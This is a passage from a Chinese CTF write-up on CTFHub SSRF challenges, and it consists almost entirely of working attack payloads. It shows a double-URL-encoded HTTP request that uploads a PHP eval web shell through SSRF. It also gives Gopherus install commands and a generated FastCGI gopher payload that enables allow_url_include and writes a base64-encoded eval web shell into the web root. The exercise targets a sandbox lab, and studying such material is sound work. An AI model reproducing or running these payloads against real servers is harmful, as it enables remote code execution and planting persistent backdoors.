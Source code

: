 ```html
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520challenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%253B%2520rv%253A140.0)%2520Gecko%252F20100101%2520Firefox%252F140.0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252C*%252F*%253Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.8%252Czh-TW%253Bq%253D0.7%252Czh-HK%253Bq%253D0.5%252Cen-US%253Bq%253D0.3%252Cen%253Bq%253D0.2%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----geckoformboundary51834e26d074966e704b418761d460d1%250D%250AContent-Length%253A%2520266%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250A%250D%250A------geckoformboundary51834e26d074966e704b418761d460d1%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application%252Foctet-stream%250D%250A%250D%250A%253C%253Fphp%2520echo%2520123%253B%2540eval(%2524_POST%255B'code'%255D)%253B%253F%253E%250D%250A------geckoformboundary51834e26d074966e704b418761d460d1--
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751706542492-3ad83c11-c956-41ff-b542-341ba0b65172.png)

成功

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751706560469-c3bf546b-a091-4946-898a-0a4a95cafac9.png)

### FastCGI协议
安装gopherus

```html
git clone https://github.com/tarunkant/Gopherus.git
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
./install.sh
```

生成exploit

```html
python2 gopherus.py --exploit fastcgi
/var/www/html/index.php
echo PD9waHAgZXZhbCgkX1BPU1RbJ2NvZGUnXSk7Pz4= | base64 -d >/var/www/html/shell.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751708126475-053726ca-fea6-4f14-b7d9-f2ed7e6c8580.png)

进行一次URL编码

```html
_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2505%2505%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2503CONTENT_LENGTH134%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%2586%2504%2500%253C%253Fphp%2520system%2528%2527echo%2520PD9waHAgZXZhbCgkX1BPU1RbJ2NvZGUnXSk7Pz4%253D%2520%257C%2520base64%2520-d%2520%253E%2Fvar%2Fwww%2Fhtml%2Fshell.php%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```
